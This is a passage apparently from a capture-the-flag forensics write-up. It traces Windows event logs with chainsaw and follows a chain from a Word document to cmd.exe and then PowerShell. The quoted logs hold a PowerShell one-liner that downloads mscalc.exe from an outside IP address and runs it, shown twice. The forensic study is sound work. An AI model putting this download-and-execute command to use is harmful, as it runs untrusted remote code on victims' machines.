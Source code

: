 ```
    ParentCommandLine: c:\\microsoft\\office\\word\\document\\..\\..\\..\\..\\windows\\system32\\cmd.exe /c powershell.exe (new-object system.net.webclient).downloadfile('http://103.162.14.116:8888/mscalc.exe','%temp%\mscalc.exe');start-process '%temp%\mscalc.exe'
    ParentImage: C:\Windows\System32\cmd.exe
    ParentProcessGuid: 335CB4AA-60FA-650A-FE00-000000000D00
    ParentProcessId: 8776
    ParentUser: DESKTOP-V0F35DT\HoaGay
    ProcessGuid: 335CB4AA-60FB-650A-0001-000000000D00
    ProcessId: 3856
    Product: Microsoft® Windows® Operating System
    RuleName: '-'
    TerminalSessionId: 1
    User: DESKTOP-V0F35DT\HoaGay
    UtcTime: 2023-09-20 03:03:23.066
```

It has a parent process id of 8776, so lets see what that was.

```
.\chainsaw search -t "Event.EventData.ProcessId: =8776" .\forensics_valhalloween
```

```
Event:
  EventData:
    CommandLine: c:\\microsoft\\office\\word\\document\\..\\..\\..\\..\\windows\\system32\\cmd.exe /c powershell.exe (new-object system.net.webclient).downloadfile('http://103.162.14.116:8888/mscalc.exe','%%temp%%\mscalc.exe');start-process '%%temp%%\mscalc.exe'
    Company: Microsoft Corporation
    CurrentDirectory: C:\Users\HoaGay\Documents\Subjects\
    Description: Windows Command Processor
    FileVersion: 10.0.19041.746 (WinBuild.160101.0800)
    Hashes: MD5=8A2122E8162DBEF04694B9C3E0B6CDEE
    Image: C:\Windows\System32\cmd.exe
    IntegrityLevel: Medium
    LogonGuid: 335CB4AA-604E-650A-8DB4-040000000000
    LogonId: '0x4b48d'
    OriginalFileName: Cmd.Exe
    ParentCommandLine: '"C:\Program Files\Microsoft Office\Office15\WINWORD.EXE" /n "C:\Users\HoaGay\Documents\Subjects\Unexpe.docx" /o ""'
    ParentImage: C:\Program Files\Microsoft Office\Office15\WINWORD.EXE
    ParentProcessGuid: 335CB4AA-60F8-650A-FA00-000000000D00
    ParentProcessId: 7280
    ParentUser: DESKTOP-V0F35DT\HoaGay
    ProcessGuid: 335CB4AA-60FA-650A-FE00-000000000D00
    ProcessId: 8776
    Product: Microsoft® Windows® Operating System
    RuleName: '-'
    TerminalSessionId: 1
    User: DESKTOP-V0F35DT\HoaGay
    UtcTime: 2023-09-20 03:03:22.900
```
